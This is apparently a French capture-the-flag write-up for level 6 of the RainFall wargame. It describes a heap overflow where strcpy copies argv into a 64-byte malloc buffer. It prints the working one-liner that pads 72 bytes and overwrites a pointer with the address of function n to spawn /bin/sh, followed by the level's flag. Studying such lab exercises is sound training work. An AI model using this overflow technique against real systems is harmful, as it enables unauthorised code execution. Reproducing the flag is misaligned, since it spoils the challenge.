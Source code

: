 # Level 6

On voit que le main contient un strcpy qui copy argv dans un buffer malloc a taille fix de 64 en tatonant on ce rend compte que le programme sgefault a 72.
```
level6@RainFall:~$ ./level6 kkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkk
Segmentation fault (core dumped)
```
 Il est donc possible d'overflow le buffer pour y executer la fonction `n` pas appeler, qui execute un `'/bin/sh`, il suffit donc de placer l'adresse de `n` (`08048454`) a l'EBP pour executer cette dernier.
```
level6@RainFall:~$ ./level6 $(python -c "print 'a' * 72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:~$ 
```